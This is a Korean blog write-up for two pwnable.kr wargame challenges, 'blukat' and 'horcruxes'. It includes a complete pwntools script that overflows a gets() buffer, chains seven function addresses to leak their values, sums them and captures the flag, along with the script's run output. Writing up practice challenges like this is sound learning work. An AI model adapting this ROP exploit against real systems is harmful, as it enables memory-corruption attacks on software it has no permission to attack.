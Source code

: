 ```yaml
---
layout: post
title: ! '[pwnable.kr] blukat & horcruxes'
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Wargame
  - pwnable.kr
  - pwnable
---
```


[pwnable.kr](http://pwnable.kr)에서 `Toddler's Bottle` 올클했는데 두 문제 더나왔다.

그래서 광복절에 동방에 아무도 없길래 심심해서 풀었당.

코드 이쁘게 짜기 연습도 할겸 잼있었당.

<!--more-->

# blukat

> Sometimes, pwnable is strange...
>
> hint: if this challenge is hard, you are a skilled player.
>
> 
>
> ssh blukat@pwnable.kr -p2222 (pw: guest)

ssh 연결 문제다. 접속해 보자.

> blukat@ubuntu:~$ ls -la
>
> total 28
>
> drwxr-x---  2 root blukat     4096 Aug  8 06:44 .
>
> drwxr-xr-x 92 root root       4096 Aug 12 10:28 ..
>
> -r-xr-sr-x  1 root blukat_pwn 9144 Aug  8 06:44 blukat
>
> -rw-r--r--  1 root root        645 Aug  8 06:43 blukat.c
>
> -rw-r-----  1 root blukat_pwn   33 Jan  6  2017 password
>
> blukat@ubuntu:~$ id
>
> uid=1104(blukat) gid=1104(blukat) groups=1104(blukat),1105(blukat_pwn)

?

> blukat@ubuntu:~$ cat password
>
> cat: password: Permission denied
>
> blukat@ubuntu:~$ ./blukat 
>
> guess the password!
>
> cat: password: Permission denied
>
> congrats! here is your flag: 

......................?????

이게뭐야

# horcruxes

> Voldemort concealed his splitted soul inside 7 horcruxes.
>
> Find all horcruxes, and ROP it!
>
> author: jiwon choi
>
> 
>
> ssh horcruxes@pwnable.kr -p2222 (pw:guest)

이것도 ssh 연결 문제.

> horcruxes@ubuntu:~$ cat readme 
>
> connect to port 9032 (nc 0 9032). the 'horcruxes' binary will be executed under horcruxes_pwn 
>
> privilege.
>
> rop it to read the flag.

 인 척 하는 nc 문제 (?)

 랜덤으로 a~g 값 만들어주고 그 값을 전부 더한 값이 내가 입력한 값이랑 같으면 클리어.

 근데 문제는 그 값을 알게해주는 함수들은 그 값을 입력해야 된다.

 예를들어 a 값을 알고싶으면 a를 입력해야 하는 형식. 뭐야이게

![]({{ site.baseurl }}/images/KRater/2018-08-15-blukat-horcruxes/pic01.PNG) 

 ropme 함수에 gets 함수 있따. 야호 BOF 가능

 BOF 해서 함수들 순회하면서 값 유출하고 sum 입력해주면 짜자잔 되겠당

![]({{ site.baseurl }}/images/KRater/2018-08-15-blukat-horcruxes/pic02.PNG) 

근데 `ropme` 함수에 `0x00` 바이트 있다 헝헝 ㅠㅠ

![]({{ site.baseurl }}/images/KRater/2018-08-15-blukat-horcruxes/pic03.PNG) 

그니까 `main` 함수에서 콜하는 부분으로 뛰면 되겠네 ㅎ

```python
from pwn import *
from ctypes import *

HOST = "localhost"
PORT = 9032
r = remote(HOST, PORT)
horcruxes = [0x0809FE4B, 0x0809FE6A, 0x0809FE89, 0x0809FEA8, 0x0809FEC7, 0x0809FEE6, 0x0809FF05]
main_call_ropme = 0x0809fffc

def main () :
	exp = 0
	r.recvuntil("Menu:")
	r.sendline('1')
	r.recvuntil(" : ")
	payload = "A"*116
	payload += "B"*4 # SFP
	for i in range (7) :
		payload += p32(horcruxes[i])
	payload += p32(main_call_ropme)
	r.sendline(payload)

	for i in range (7) :
		r.recvuntil("+")
		tmp = r.recvuntil(")", drop=True)
		log.info(tmp)
		exp += int(tmp)
	log.info("exp : " + str(c_int(exp).value))
	r.recvuntil("Menu:")
	r.sendline("1")
	r.recvuntil(" : ")
	r.sendline(str(c_int(exp).value))
	r.interactive()

if __name__ == '__main__' :
	main()
```

근데 더할때 `4 bytes integer overflow` 일어나잖아...?

파이썬이 이상하게 더해줄탠데...

그래서 `ctypes` 모듈 써 봤다.

요로코롬 하면 자동으로 `overflow`까지 생각해서 계산해준다.

> horcruxes@ubuntu:/tmp/---$ python exploit.py 
>
> [+] Opening connection to localhost on port 9032: Done
>
> [*] 154861037
>
> [*] 479571890
>
> [*] 862848645
>
> [*] 248990705
>
> [*] 1911103787
>
> [*] 284725373
>
> [*] 197217576
>
> [*] exp : -155648283
>
> [*] Switching to interactive mode
>
> ---flag is here---

끗~
<!--stackedit_data:
eyJoaXN0b3J5IjpbODc5NzY0MzE3XX0=
-->